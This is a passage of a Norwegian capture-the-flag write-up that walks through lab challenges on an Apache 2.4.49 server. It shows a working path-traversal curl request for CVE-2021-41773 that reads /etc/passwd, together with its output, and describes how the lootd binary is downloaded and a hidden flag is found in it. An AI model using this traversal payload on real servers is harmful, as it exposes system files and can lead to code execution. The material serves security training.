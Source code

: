 Etter å ha nedgradert, så blir flagget for webserver_1 tilgjengelig.

> Veldig bra!
> Du fikk nedgradert apache-versjonen, gir dette noen nye muligheter?



### 2.05_webserver_2

Akkurat denne Apache-versjonen er sårbar mot `CVE-2021-41773`, som beskrives slik av MITRE:

```
A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013
```

Gjennom INTREP.txt har det også blitt utgitt informasjon om pathen `http://anvilshop.utl/cgi-bin/lootd.v2/download?app.apk`, så det er allerede en mappe der som er kjent, som vi kan bruke videre i et angrep. Som proof of concept prøver jeg å lese ut `/etc/passwd`, og der ligger flagget (i tillegg til i Apache og SSH config).

```
login@corax:~/1_grunnleggende/7_path_traversal$ curl 'http://anvilshop.utl/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd'
root:x:0:0:root:/root:/bin/ash
...
nobody:x:65534:65534:nobody:/:/sbin/nologin
user:x:1000:1000:Linux User,,,:/home/user:/bin/ash
apache:x:100:101:apache:/var/www:/sbin/nologin
# FLAGG: xxxxxxxxx
```

> Supert!
> Du har funnet en inngangsvektor til apache-serveren. Kan du få shell-aksess på serveren? Serveren ser ut til å ha port 22 åpen. Finnes det noen muligheter der?



### 2.06_lootd_1

Ettersom det å nedgradere serveren fører til at mod-cgi blir skrudd av, blir det også mulig å laste ned lootd-programmet, som vi ble informert om i [INTREP.txt](INTREP.txt)

`login@corax:~$ curl "http://anvilshop.utl/cgi-bin/lootd.v2" -o lootdv2`

Inne i dette programmet, så er det gjemt et ASCII art-flagg på adresse `.FLAG:000000000040B3C0`. Det er mulig å lese ut dette ved å printe det ut til en terminal e.l., ettersom det hovedsaklig består av ANSI escape codes.

> Bra funn! Kanskje det er mer å finne i dette programmet?



### 2.07_lootd_2
